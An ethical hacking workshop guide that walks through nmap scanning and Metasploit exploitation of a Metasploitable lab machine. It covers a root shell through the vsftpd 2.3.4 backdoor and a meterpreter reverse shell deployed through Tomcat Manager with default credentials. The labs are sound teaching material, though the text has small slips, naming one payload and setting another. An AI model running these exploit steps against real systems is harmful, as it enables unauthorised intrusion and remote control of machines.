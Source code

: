 # Intro to Ethical Hacking Workshop Guide

## Lab 1: Nmap

First, make sure our Metasploitable lab machine is reachable. From Kali Linux:

```
ping <metasploitable_ip>
```

Next, we'll try Nmapping this host. Run the following scan to do a basic port scan of the host.

```
sudo nmap -Pn -sS <metasploitable_ip>
```

We now have a list of ports. Let’s see if we can get a little more information about service versions.

```
sudo nmap -Pn -sS -sV <metasploitable_ip>
```

Now that we have a list of ports, and version, we notice that the FTP service vsftpd is running on port 21. Let’s check if Nmap contains any scripts to scan for vulnerabilities in this service. We’ll list the files in the directory using ls -la /usr/share/nmap/scripts and then pipe the output to “grep” to search for the string ftp, using the following command:

```
ls -la /usr/share/nmap/scripts/ | grep ftp
```

There is a script specifically for this host, called “ftp-vsftpd-backdoor.” We’ll run this script against the vulnerable host to determine if it’s vulnerable. Note that in this scan, we’re only specifying port 21 with the -p21 flag, since this is the only port we care to scan with this script.

```
sudo nmap -Pn -sS -sV -p21 --script ftp-vsftpd-backdoor <metasploitable_ip>
```

Running this nmap command should show that service is indeed vulnerable.

## Lab 2: Intro to Metasploit

Now that we have identified a vulnerability using Nmap, let’s attempt to exploit this vulnerability. We’ll begin by starting the Metasploit Console using the following command:

```
msfconsole
```

Once Metasploit has started, we’ll use the following command to search for a relevant exploit for the vulnerable service.

```
search vsftp
```

After this command is completed, we should see at least one vulnerability pertaining to vsftpd. We’ll use the following command to get a little more information about the vulnerability.

```
info exploit/unix/ftp/vsftpd_234_backdoor
```

Running this command shows that the exploit works against vsftpd 2.3.4. If we revisit the Nmap scan results, we should see that the server is running this version. Therefore, we’ll go ahead and activate this exploit.


```
use exploit/unix/ftp/vsftpd_234_backdoor
```

Now that we have specified which exploit we want to use, we’ll need to set a few options for the exploit to properly work. This can be viewed using the following command:

```
show options
```

Now that we have a list of options, we see that we only need to fill in one variable. This is RHOST, since RPORT is the correct port that vsftpd is running on. We’ll set RHOST to the IP address of the Metasploitable box.

```
set RHOSTS <metasploitable_ip>
```

Finally, running an exploit without a payload is relatively useless. If we begin by typing “set payload” and the tab key a couple of times, Metasploit should autocomplete this field. We see that there is only one option. Let’s go ahead and specify that payload.

```
set payload cmd/unix/interact
```

Everything should now be complete. Let’s type “show options” one more time to verify that there aren’t any additional payload options to specify. There shouldn’t be, so let’s go ahead and run our exploit.


```
run
```

We will see some output, and then should have a blank line. Run the following command in the blank line.

```
id
```

This should return output stating that we have an active session as the root user. Success! We’ve rooted our first box.

## Bonus Lab: More Metasploit


The next lab will be a bit more involved than the previous exercise. We first begin by revisiting our Nmap results from previously. We see that Tomcat manager is running on port 8180. We recall several incidents involving poor authentication with Tomcat manager. We’ll begin by browsing to this port within a web browser.

```
http://<meterpreter_ip>:8180
```

We should see a panel to the left of the screen. This panel should contain a link titled “Tomcat Manager." Click the “Tomcat Manager” link and insert the default username and password when prompted.

* username: tomcat
* password: tomcat

We’re now in the management panel of Tomcat. From here, we can upload any web application that we would like. We could do this manually, but Metasploit should have a module that does this automatically. Start Metasploit if it isn’t currently running.

```
msfconsole
```

Once Metasploit starts, we should search for any exploit related to tomcat.

```
search tomcat
```

After examining the results, “tomcat_mgr_deploy” sounds like it may do what we’re wanting to do. Let’s verify by using the following command:

```
info exploit/multi/http/tomcat_mgr_deploy
```

Go ahead and use this exploit, since we have verified that it will work against our target host.

```
use exploit/multi/http/tomcat_mgr_deploy
```

Now that we’ve activated this exploit, let’s examine the options available

```
show options
```

As before, we’ll set each variable to the required setting, making sure we provide the default username and password.

```
set HttpPassword tomcat
set HttpUsername tomcat
set RHOSTS <metasploitable_ip>
set RPORT 8180
set target 1
```

Now that we need to select a payload for the exploit. Hitting tab a few times reveals java/meterpreter/reverse_tcp. Since we prefer using meterpreter when possible, we’ll select this option.

```
set payload java/meterpreter/reverse_http
```

Once again, “show options” to show payload options.

```
show options
```

We’ll set the payload option to our local IP address.

```
set LHOST <kali_ip>
```

And then run the exploit.

```
run
```

Let’s examine the current UID with the following command.

```
getuid
```

We should see that our payload is running as the tomcat user. The next steps would be to find a way to elevate these permissions to root.